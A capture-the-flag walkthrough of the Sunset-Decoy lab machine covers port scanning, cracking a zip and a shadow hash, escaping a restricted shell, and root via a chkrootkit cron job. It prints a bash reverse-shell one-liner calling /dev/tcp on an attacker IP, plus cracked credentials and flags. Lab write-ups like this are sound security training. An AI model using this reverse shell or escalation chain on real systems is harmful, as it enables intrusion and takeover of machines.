 # Sunset-Decoy

Lets check the IP address first —>

![Untitled](Sunset-Decoy/Untitled.png)

```bash
IP : 10.0.2.49
```

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Decoy]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.0.2.49
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 10:50 IST
Nmap scan report for 10.0.2.49
Host is up (0.00093s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 a9b53e3be374e4ffb6d59ff181e7a44f (RSA)
|   256 cef3b3e70e90e264ac8d870f1588aa5f (ECDSA)
|_  256 66a98091f3d84b0a69b000229f3c4c5a (ED25519)
80/tcp open  http    Apache httpd 2.4.38
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.0K  2020-07-07 16:36  save.zip
|_
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 08:00:27:BA:A7:50 (Oracle VirtualBox virtual NIC)
Service Info: Host: 127.0.0.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](Sunset-Decoy/Untitled%201.png)

Now lets brute force the password of zip file with `fcrackzip` tool ➡️

![Untitled](Sunset-Decoy/Untitled%202.png)

Got the password : `manuel`

Now Lets see what I got →

![Untitled](Sunset-Decoy/Untitled%203.png)

Now lets decrypt the hash from shadow file with `hashcat` tool ➡️

![Untitled](Sunset-Decoy/Untitled%204.png)

Now I got the credentials of user → 

```bash
296640a3b825115a47b68fc44501c828:$6$x4sSRFte6R6BymAn$zrIOVUCwzMlq54EjDjFJ2kfmuN7x2BjKPdir2Fuc9XRRJEk9FNdPliX4Nr92aWzAtykKih5PX39OKCvJZV0us.:18450:0:99999:7:::

password : server
```

Now let’s SSH into it ➡️

![Untitled](Sunset-Decoy/Untitled%205.png)

Since it is running rbash so I need to convert it to bash for that lets see what I got —>

![Untitled](Sunset-Decoy/Untitled%206.png)

Lets execute `honeypot.decoy` which have root privileges —>

![Untitled](Sunset-Decoy/Untitled%207.png)

Lets run Leave a note command with runs on vim I think so , which that I can change the shell ➡️

![Untitled](Sunset-Decoy/Untitled%208.png)

Now lets also set the PATH file —>

![Untitled](Sunset-Decoy/Untitled%209.png)

```bash
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ cat user.txt 
35253d886842075b2c6390f35946e41f
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$
```

Now lets enumerate freely —>

![Untitled](Sunset-Decoy/Untitled%2010.png)

Lets check the logs file —>

![Untitled](Sunset-Decoy/Untitled%2011.png)

here I find extraction of `chkrootkit` which works as Antivirus purpose and wait I also found AV launch option in `honeypot.decoy` file so lets execute it →

![Untitled](Sunset-Decoy/Untitled%2012.png)

Now I see it is executing the chkrootkit as root Lets find an exploit related to it —>

![Untitled](Sunset-Decoy/Untitled%2013.png)

After reading it I got the steps to perform this exploitation →

![Untitled](Sunset-Decoy/Untitled%2014.png)

![Untitled](Sunset-Decoy/Untitled%2015.png)

```bash
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ echo "bash -c 'bash -i >& /dev/tcp/10.0.2.27/4444 0>&1'" > /tmp/update
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$ chmod +x /tmp/update
296640a3b825115a47b68fc44501c828@60832e9f188106ec5bcc4eb7709ce592:~$
```

Lets wait for cronjob to execute and wait for nc respomse →

![Untitled](Sunset-Decoy/Untitled%2016.png)

```bash
root@60832e9f188106ec5bcc4eb7709ce592:~# cat root.txt	
cat root.txt
  ........::::::::::::..           .......|...............::::::::........
     .:::::;;;;;;;;;;;:::::.... .     \   | ../....::::;;;;:::::.......
         .       ...........   / \\_   \  |  /     ......  .     ........./\
...:::../\\_  ......     ..._/'   \\\_  \###/   /\_    .../ \_.......   _//
.::::./   \\\ _   .../\    /'      \\\\#######//   \/\   //   \_   ....////
    _/      \\\\   _/ \\\ /  x       \\\\###////      \////     \__  _/////
  ./   x       \\\/     \/ x X           \//////                   \/////
 /     XxX     \\/         XxX X                                    ////   x
-----XxX-------------|-------XxX-----------*--------|---*-----|------------X--
       X        _X      *    X      **         **             x   **    *  X
      _X                    _X           x                *          x     X_

1c203242ab4b4509233ca210d50d2cc5

Thanks for playing! - Felipe Winsnes (@whitecr0wz)
root@60832e9f188106ec5bcc4eb7709ce592:~#
```